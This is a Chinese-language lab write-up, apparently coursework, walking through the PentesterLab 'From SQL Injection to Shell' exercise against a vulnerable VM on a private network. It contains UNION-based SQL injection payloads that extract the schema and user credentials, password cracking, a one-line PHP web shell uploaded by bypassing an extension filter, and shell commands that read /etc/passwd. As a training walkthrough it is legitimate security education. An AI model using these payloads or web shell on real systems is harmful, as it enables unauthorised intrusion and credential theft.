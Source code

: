 # From SQL Injection To Shell

### 网络拓扑环境
- shell_servicer：下载iso镜像安装，网络模式为NAT 网络，作为服务器<br>
![](images/2.png)
- shell_attacker：使用自己安装的kali虚拟机，网络模式为NAT 网络，作为攻击者<br>
![](images/1.png)

### 实验步骤
- 在攻击者上扫描服务器IP `netdiscover -r 10.0.2.0/24`<br>
![](images/3.png)
- 攻击者和服务器可以相互ping通<br>
![](images/4.png)
- 指纹识别:收集有关Web应用程序和正在使用的技术的信息。
  - 用nmap扫描服务器，查看其端口情况以及MAC地址
  ![](images/6.png)
  - 通过浏览器识别网页的源代码，可以检测到应用程序是PHP写的  [view-source](https://blog.csdn.net/yuwq123/article/details/79481829)<br>
  ![](images/5.png)
  - 使用burpsuite查看http响应包头，提取更多有效信息
    - 浏览器设置代理
    ![](images/7.png)
    - 浏览器设置代理之后是不能直接访问网页的，因为我们没有将请求转发，接下来就需要配置burpsuite来转发浏览器的请求。
    ![](images/8.png)
    - 关闭intercept<br>
    ![](images/9.png)
    - attacker上访问http://10.0.2.11
    - burpsuite劫持http的request和response进行分析,可以看出服务器是建立在Apache2.0上的，网页使用PHP/5.3.3-7+squeeze14
    ![](images/10.png)
  - wfuzz检测Web服务器上的目录和页面。
  ![](images/11.png)
- 检测SQL的注入
  - 基于整数的检测
    - 访问`url /article.php?id=1 `将生成以下请求：` SELECT * FROM articles WHERE id=1`
    - 访问 `/article.php?id=1 `和 `/article.php?id=2-1`生成的是一个页面，数据库直接做了减法，可能有SQL注入
    ![](images/12.png)
    ![](images/13.png)
  - 基于字符串的检测
    - 作为一般规则，奇数个单引号将引发错误，偶数个单引号将不会.
    `http://10.0.2.11/cat.php?id=1'`
    ![](images/14.png)
    - 若加上`--`表示后面的内容被注释掉
    `http://10.0.2.11/cat.php?id=1 --'or id=3` 
    ![](images/15.png)
- 利用UNION实现SQL注入
  - 猜列数：
    - 原理：UNION前后select语句的列数必须保持一致，不然会报错；order by x x的值必须小于或等于数据库中的列数
    - 方法一：UNION<br>
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,2,3`
    ![](images/16.png)
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,2,3,4`
    ![](images/17.png)
    - 方法二：order by<br>
    `http://10.0.2.11/cat.php?id=1 order by 4`
    ![](images/18.png)
    `http://10.0.2.11/cat.php?id=1 order by 5`
    ![](images/19.png)
    - 由此可以猜测，数据库有4列
  - 应用
    - 根据union select1,2,3,4的结果我们可以猜测，想要的信息在第2列
    - 数据库版本信息
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,@@version,3,4`
    ![](images/20.png)
    - 当前用户
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,current_user,3,4`
    ![](images/21.png)
    - 当前数据库
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,database(),3,4`
    ![](images/22.png)
    - 当前数据库中所有表的名称
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.tables`
    ![](images/23.png)
    - 当前数据库中所有列的名称
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`
    ![](images/24.png)
    - 表名和列名的对应关系<br>
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`
    ![](images/25.png)
    - 获取用于访问管理页面的用户名和密码：通过获取表名和列名对应关系，我们可以找到用户表，发现里面的列有password，id，login
    ![](images/26.png)
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,concat(login, : ,password),3,4 FROM users`
    ![](images/27.png)
- 访问管理页面和代码执行
  - 破解密码
    - 利用在线破解工具破解，结果是：`P4ssw0rd `
    ![](images/28.png)
    - John-The-Ripper破解:使用password.lst破解失败，换成rockyou.txt成功
    ![](images/29.png)
    ![](images/30.png)
  - 代码注入
    - 登陆管理页面`http://10.0.2.11/admin/index.php`，可以对进行上传和删除图片操作
    ![](images/31.png)
    ![](images/32.png)
    - 本地创建一个最简单的`shell.php`页面
    ```
    <?php 
      system($_GET['cmd']);
    ?>
    ```
    - 点击`New pictures`上传`shell.php`发现不能访问
    ![](images/34.png)
    ![](images/35.png)
    - 将`shell.php`后缀改成`.php3`或`.php.test`(没有展示，但实验证明可以)可以绕过.php过滤
    ![](images/36.png)
    ![](images/37.png)
    - 点击上传的shell，查看<img标签
    ![](images/38.png)
    - 利用url执行cmd命令获取服务器信息
      - `http://10.0.2.11/admin/uploads/shell.php3?cmd=uname`<br>返回服务器内核
      ![](images/39.png)
      - `http://10.0.2.11/admin/uploads/shell.php3?cmd=cat /etc/passwd`<br> 获取系统用户的完整列表
      ![](images/40.png)
      - `http://10.0.2.11/admin/uploads/shell.php3?cmd=ls /etc`<br> 获取当前目录的内容
      ![](images/41.png)
      - `http://10.0.2.11/admin/uploads/shell.php3?cmd=whoami`发现我是属于www-data用户组。那么是不能执行的，权限太低,或者到ifconfig目录下运行
      ![](images/42.png)
      ![](images/43.png)

### 参考文档
- [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
- [from_sql_to_shell.md](https://github.com/choitop/ns/blob/f484bac28f8215205ba8e4bc5f66afdcbf6d4b03/2017-2/LAB_whx/LAB3/from_sql_to_shell.md)
